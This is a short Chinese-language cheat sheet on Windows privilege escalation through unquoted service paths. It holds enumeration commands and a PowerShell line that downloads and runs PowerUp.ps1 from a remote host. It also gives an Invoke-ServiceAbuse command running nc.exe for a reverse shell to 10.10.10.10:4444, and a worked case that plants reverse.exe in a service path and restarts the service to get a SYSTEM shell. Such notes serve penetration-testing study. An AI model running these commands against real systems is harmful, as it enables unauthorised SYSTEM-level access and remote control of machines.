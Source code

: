 # 未引用的服务路径

利用方式：如果该路径未加引号并且包含空格或其他分隔符，则服务将首先尝试访问父路径中的资源。当使用不带引号并包含空格的绝对路径时，这种行为会导致歧义，由此导致攻击。

**MSF 利用：exploit/windows/local/trusted_service_path**

**错误配置枚举：**

```bash
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """

wmic service get name,displayname,startmode,pathname | findstr /i /v "C:\Windows\\" |findstr /i /v """

gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select PathName,DisplayName,Name
```

PowerUp 枚举：

```bash
powershell.exe -nop -exec bypass "IEX (New-Object Net.WebClient).DownloadString('http://ip/PowerUp.ps1'); Invoke-AllChecks"
```

枚举结果如：

```bash
...
[*] Checking for unquoted service paths...
ServiceName   : BBSvc
Path          : C:\Program Files\Microsoft\Bing Bar\7.1\BBSvc.exe
StartName     : LocalSystem
AbuseFunction : Write-ServiceBinary -ServiceName 'BBSvc' -Path <HijackPath>
...

# automatic exploit
Invoke-ServiceAbuse -Name [SERVICE_NAME] -Command "..\..\Users\Public\nc.exe 10.10.10.10 4444 -e cmd.exe"
```

例：如C:\Program Files\something\legit.exe，则windows的执行顺序是 `C:\Program.exe`  `C:\Program Files.exe`

# 案例：unquotedsvc服务

利用方式：若可以将自定义文件写入 c:\ 或 c:\Program Files 或 c:\Program Files\Unquoted Path Service，然后就可以进行错误引导。

```bash
sc qc unquotedsvc  // 1.可以看到二进制路径名包含空格 2.以SYSTEM权限运行
accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"   //结果显示当前用户拥有文件所有访问权限
所以下一步可以将shell加入
copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe" //用copy 加shell 加入至路径中
net start unquotedsvc 手动重启服务,得到反向shell
```
